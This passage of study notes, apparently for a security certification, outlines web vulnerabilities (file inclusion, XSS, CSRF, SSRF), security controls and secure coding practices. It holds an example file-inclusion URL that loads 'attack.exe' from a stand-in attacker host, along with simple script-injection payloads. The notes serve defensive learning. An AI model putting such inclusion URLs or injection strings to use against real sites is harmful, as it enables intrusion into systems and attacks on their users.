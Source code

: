 			- ex: `http://www.mycompany.com/app.php?include=http://evil.attacker.com/attack.exe`
		- attackers will usually upload a web shell to the server 
	- privilege escalation
		- increases level of access an attacker has to a target system
- web app vulns
	- XSS (cross site scripting)
		- occur when attacker performs HTML injection
		- reflected XSS
			- occur when application allows reflected input
				- ex: "submit your name" -> *hello, name*
				- `Mike<script>alert("hello")</script>`
			- dangerous bc form input can be embedded in a URL 
			- mitigate w/ input validation
		- stored / persistent XSS
			- store XSS code on a remote web server (such as in a forum post)
			- ex: `Does anyone have suggestions for transportation? <script>alert("hello")</script>`
			- when other users load the post, the script will load
	- request forgery
		- when users unwittingly execute commands against a remote server
		- CSRF (cross site request forgery)
			- exploit the trust remote sites have in a user's system to execute commands on the user's behalf 
			- attacker embeds code in one website that sends a command in another website (which the attacker hopes they are logged into)
			- ex: someone posts a link on a forum, which goes to a bank and funnels money from it (so if the user was logged in, it would work)
			- mitigate by using secure / random tokens in the url; check location of referring URL 
		- SSRF (server side request forgery)
			- similar, but they trick a server into a URL based on user-supplied input 
			- if server has access to nonpublic URLs, you can exploit that to show info
- application security controls
	- input validation
		- allow listing: dev describes exact input expected
		- deny listing: describe input that should be blocked
		- parameter pollution: adding multiple parameters to see if webapp only checks first parameter
	- web application firewalls (WAFs)
		- sits in front of application / web server and performs input validation before passing input to web server 
	- parameterized queries
		- client doesn't directly send SQL code to db; client sends args to server, which inserts them into a query template 
	- sandboxing
		- running app in isolated / controlled environment 
- code security
	- code signing
		- confirm authenticity of their code to end users w/ a signed key 
		- protects against malicious updates
	- code reuse
		- be vigilant in how third party code is used in an org 
	- software diversity
		- avoid single points of failure (like a single piece of source code, binary file, etc)
	- integrity management
		- use hashing to ensure prod code and dev code is the same
	- application resilience 
		- scalability: computing resources can be incrementally added to support increasing demand
		- elasticity: applications should be able to provision resources to scale when necessary and deprovision when not needed
- secure coding practices
	- source code comments
		- make sure commented versions of code stay secret
	- error handling
	- hard coded credentials are bad
	- package monitoring
		- keep track and update third party packages 
- memory management